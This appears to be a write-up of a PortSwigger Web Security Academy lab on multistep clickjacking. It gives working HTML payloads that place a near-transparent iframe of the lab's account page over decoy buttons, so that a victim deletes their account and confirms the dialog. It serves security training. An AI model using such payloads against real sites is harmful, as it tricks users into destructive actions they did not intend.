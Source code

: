 
# 8 - Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/csrf

- https://portswigger.net/web-security/clickjacking 

---------------------------------------------

Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/8%20-%20Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/8%20-%20Multistep%20clickjacking/2.png)

Here, clicking the “Click me next” button the user would be deleted:



![img](images/8%20-%20Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small ifram size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

Adjust the first button:



![img](images/8%20-%20Multistep%20clickjacking/4.png)

And the second one:



![img](images/8%20-%20Multistep%20clickjacking/5.png)

This time we get the lab solved message!